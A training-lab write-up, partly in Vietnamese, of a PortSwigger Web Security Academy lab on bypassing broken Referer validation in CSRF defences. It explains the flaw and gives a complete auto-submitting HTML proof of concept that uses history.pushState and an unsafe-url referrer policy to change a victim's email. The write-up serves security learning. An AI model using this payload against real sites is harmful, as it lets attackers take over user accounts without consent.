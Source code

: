 

### [Lab 11: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

Lab des: 

Thực hiện tấn công CSRF vào chức năng đổi email, vượt qua cơ chế kiểm tra `Referer` yếu:

- Ứng dụng kiểm tra `Referer`, nhưng không chính xác
- Chỉ cần domain thật xuất hiện đâu đó trong `Referer`, là server chấp nhận

![image-20250604015212311](./image/image-20250604015212311.png)

Steps: 

- craft poc:

  - Dùng JavaScript để thêm domain lab vào `Referer` thông qua `history.pushState()`

  - Để đảm bảo query string không bị cắt, thêm header:

    ```html
    Referrer-Policy: unsafe-url
    ```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0100e50327883c875ed3df00580060.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="thao&#46;khong&#64;lq&#46;vnfinal" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a0100e50327883c875ed3df00580060.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>

```